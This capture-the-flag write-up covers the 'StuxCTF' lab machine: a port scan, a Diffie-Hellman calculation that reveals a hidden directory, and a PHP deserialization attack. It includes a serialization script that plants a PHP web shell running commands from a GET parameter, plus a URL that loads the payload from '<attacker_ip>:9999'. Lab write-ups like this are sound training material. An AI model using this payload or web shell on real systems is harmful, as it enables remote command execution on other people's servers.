# Port Scanning
```bash
❯ rustscan -a 10.81.128.221 -- -A

Open 10.81.128.221:22
Open 10.81.128.221:80

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e8:da:b7:0d:a7:a1:cc:8e:ac:4b:19:6d:25:2b:3e:77 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDHy6u+PbjzbKZyYYJwrdwKQPHa7m8AgiJwNQSx4Tp1IOOf2y8QZTm3/iln/TJsLNdRuOORhMymecTm0H8X+Oqq481qx5hcLb4ax88tzD/yHMYIWpgMVphjZRzvBpuYmL6tS25ltX5C8VUyIfAAp5UfmwTJTpQc6yUsf/SzA1JfHRMKYrKarm+HyiTA7Md5en7DkYf/Cc3D2RTvgmzyUEES1sWXIKlqG+Hw5Q3LBTf+x3Klv4j/nTjRnQ11uGXQUV+bf/hctQ+pd5lcOACdyvW1XDOoKVVFy794JUBZIE8KFJlDF9kDDk+/9KcXPFmwHRc7EhcvoOXI0IgdY9hHbA5v
|   256 c1:0c:5a:db:6c:d6:a3:15:96:85:21:e9:48:65:28:42 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNClIhCJbrZ4E0DajP2/THDkSRCFIIz+E4n0lwO2uwYKXLH+ZkmJfWPIS0G1imPiAl86M4waW46uhq+zd2zf7nY=
|   256 0f:1a:6a:d1:bb:cb:a6:3e:bd:8f:99:8d:da:2f:30:86 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPhnACR59xmsr8aznDId/sXX28PkUm6kKDeoNMHsgY3O
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/StuxCTF/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Default Page
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 3.8 - 3.16 (96%), Linux 3.10 - 3.13 (96%), Linux 3.13 (96%), Linux 4.4 (96%), Linux 5.4 (96%), Amazon Fire TV (92%), Sony Android TV (Android 5.0) (92%), Android 5.0 - 6.0.1 (Linux 3.4) (92%), Android 5.1 (92%), Android 6.0 - 9.0 (Linux 3.18 - 4.4) (92%)
No exact OS matches for host (test conditions non-ideal).
```
First I visited the webpage but found nothing. <br/>
 <br/>
But in source code: <br/>
 <br/>
It is Diffie–Hellman / modular arithmetic cryptography clue. Using the following script I decoded the secret directory. <br/>
```python3
p = 9975298661930085086019708402870402191114171745913160469454315876556947370642799226714405016920875594030192024506376929926694545081888689821796050434591251

a = 330
b = 450

gc = 6091917800833598741530924081762225477418277010142022622731688158297759621329407070985497917078988781448889947074350694220209769840915705739528359582454617

gca = pow(gc, a, p)
gcab = pow(gca, b, p)

print(str(gcab)[:128])
```
<br/>
Following this directory I found: <br/>
 <br/>
In source code: <br/>
 <br/>
So there is a file parameter. So I set the file parameter and use `/etc/passwd`. But it returned nothing. Then i tried with `index.php` it returned a Hexa string. decoding it I got the following `index.php` script. <br/>
 <br/>
Analyzing the script I found php deserialization vulnerability. Though it was mentioned in the Room info.  <br/>
Using the following script I creat a php web shell and uploaded it on the target server. 
```php
<?php
class file {
    public $file = 'cmd_shell.php';
    public $data = '<?php system($_GET[\'cmd\']); ?>';
}

$obj = new file();
echo serialize($obj);
?>
```
In browser `file=http://<attacker_ip>:9999/chd_shell.txt` <br/>
 <br/>
After that, using that web shell I retrieved the data. <br/>
<br/>
To get the reverse shell I do the following. <br/>
 <br/>
 <br/>
Got the user flag via this user. <br/>
# Privilege Escalation
I ran `sudo -l` and found the sudo privilege. <br/>
 <br/>